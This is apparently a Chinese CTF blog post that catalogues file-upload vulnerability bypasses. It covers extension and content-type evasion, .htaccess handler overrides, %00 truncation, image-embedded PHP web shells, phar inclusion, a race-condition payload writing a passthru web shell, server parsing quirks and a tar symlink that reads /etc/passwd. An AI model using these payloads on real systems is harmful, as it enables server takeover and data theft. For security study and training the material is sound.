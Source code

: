 ```yaml
---
layout: post
title: "文件上传"
date: 2018-12-16 18:04:07 +0800
description: ""
category: ctf/web
tags: []
---
```


一句话木马原理：通过脚本语言的eval函数执行系统操作。

1. eval() 函数把字符串按照PHP代码来计算
2. 该字符串必须是合法的PHP代码，且必须以分号结尾

寻找上传漏洞一般方法：

- 扫描工具获取上传地址
- 进入后台获取的上传地址（网站编辑器上传文件模块一般不存在漏洞）
- 会员注册、上传图像、网站插件、网站应用等功能

## 前端JS校验

```javascript
<form method="post" onsubmit="return checkFile()">
<form action="upload.jsp" onsubmit="return checkFile()">
```

- 直接修改js代码中的检验部分，如：`checkFile()`或直接修改`action=`指向的地址
- 利用Bp绕过：`a.php`改名`a.php.jpg`，Bp截获，改名回`a.php`

## [后端代码校验](https://mp.weixin.qq.com/s/MHH1QsYuWV8qxzYiq7ME6A)

#### 校验header的content-type，通过Bp修改绕过

```php
if($_FILES['upload_file']['type'] == 'image/jpeg')
```

#### 后缀名黑名单

- 后缀名变大小写`.Php`，后面加空格`.php(空格)`，后面加点`.php.`，[后面加::$DATA](https://www.owasp.org/index.php/Windows_::DATA_alternate_data_stream )`.php::$DATA `
- 如果是黑名单删除模式并且未循环删除，可以使用嵌套方式`.pphphp`

- Apache的`httpd.conf`文件如果定义其他后缀名，直接改后缀名为`php5`绕过

```
AddType application/x-httpd-php .php .phtml .phps .php5 .pht
```

- 如果没有定义其他后缀名，如果`http.conf`如下配置开启，可上传`.htaccess`。 `.htaccess`文件是Apache服务器中的一个配置文件，它负责相关目录下的网页配置。通过`.htaccess`文件，可以帮我们实现：网页301重定向、自定义404错误页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能。 

```
AllowOverride All
LoadModule rewrite_module modules/mod_rewrite.so
```

上传`.htaccess`内容为

```xml
<FilesMatch "shell">
    SetHandler application/x-httpd-php
</FilesMatch>
```

此时再上传文件名为`shell`，内容可被解析为PHP。

上传`.htaccess`内容为

```
AddType application/x-httpd-php .jpg
```

此时再上传jpg文件既可被解析为PHP。

#### 后端自动拼接后缀名

```php
$img_path = $_GET['save_path'].".".$file_ext;
```

%00截断，截断条件：PHP版本<5.3.4，`magic_quotes_gpc`为`Off`（当其为On时，所有单引号，双引号，反斜线，NULL字符自动加上反斜线进行转义，类似函数`addslashes(),mysql_escape_string(),mysql_real_escape_string()`）

- `a.php`改名`a.php.jpg`，Bp截获，hex改：`a.php\0jpg`
- `a.php`改名`a.php%00.jpg`，Bp截获，Convert Selection->URL->URL-decode

#### 后端图片检测

后端通过`unpack(),getimagesize(),exif_imagetype(),imagecreatefromjpeg()`等函数检测图片内容，上传图马：

```
copy /b 1.jpg+1.php 2.jpg
```

## 后端代码逻辑

#### 文件包含

当`php.ini`设置`allow_url_include=On`时（从PHP5.2开始allow_url_include就默认为Off），`include(),require(),file_get_contents()`等函数将包含文件以脚本解析执行。 

- 直接包含

```php
<?php // include.php
    $i = $_GET['i'];
    include($i);
?>
```

将一句话木马改名为hack.txt，访问`include.php?i=hack.txt`即可将hack.txt按PHP解析。

- [自动拼接后缀名](http://www.cnblogs.com/Oran9e/p/6127163.html)

```php
<?php // include.php
    $i = $_GET['i'].".php";
    include($i);
?>
```

1.php压缩成1.zip，重命名为1.jpg上传，得到上传保存路径，然后通过PHP伪协议phar读取：`?i=phar://uploads/xxx.jpg/1 `，后台会自动拼接`.php`。

#### 后端定期删除或重命名

- 条件竞争：用Bp不断上传，再不断访问。上传内容为

```php
<?php $c=fopen('/app/intrd','w');fwrite($c,'<?php passthru($_GET\["f"\]);?>');?>
```

如果可以访问到，即会在当前目录写一个shell，下次就不用再条件竞争了。

- 使用`move_uploaded_file`重命名，由于该函数会递归删除文件名后面的`/.`

```php
$file_name = $_POST['save_name'];
$file_ext = pathinfo($file_name,PATHINFO_EXTENSION); //$file_ext check
if (move_uploaded_file($_FILES['upload_file']['tmp_name'], $file_name))
```

因此，POST中设置文件名：`save_name=1.php/.`

## 畸形解析

#### IIS 6.0

- 默认解析格式除了`.asp`还有：`.asa`，`.cer`，`.cdx`
- 目录名为`xx.asp或xx.asa`，其目录内任何扩展名文件均被当作ASP解析：`/test.asp/1.jpg`
- 文件名为`xx.asp;.jpg或xx.asp:.jpg`会被当作ASP解析执行，Bp抓包修改

#### IIS 7.0/7.5

图片URL后面加/.php，即能将文件按PHP解析。如名为1.jpg的木马，访问`/1.jpg/.php`。

#### Apache

`mime.types`配置文件定义了Apache能够解析哪些文件类型（白名单），由于apache从右到左找认识的扩展名，因此`xx.php.rar`或者`xx.php.111`这些默认没有在`mime.types`文件定义的都会解析为PHP文件。

#### Nginx<8.03

- 同IIS 7.0/7.5
- xx.jpg%00.php

#### Windows后缀名解析漏洞

Windows会将文件的后缀中的空格以及点进行过滤，如果遇到是黑名单校验的并且目标系统是Windows，可以上传`xx.php(空格)`或者`xx.php.`。

#### 网站平台信息的获取方式

- 审查元素
- 第三方平台查询（seo.chinaz.com）
- 扫描工具（wwwscan）
- 常用搭配：`PHP+MySQL+Apache`，`ASP+Access`，`MsSQL+IIS`

## 上传tar

创建软连接读取敏感文件（sample：interesting_web-安恒月赛-2018-11）

```shell
ln -s /etc/passwd 1.jpg
tar cvfp 1.tar 1.jpg #-p：保留原文件的原来属性
```

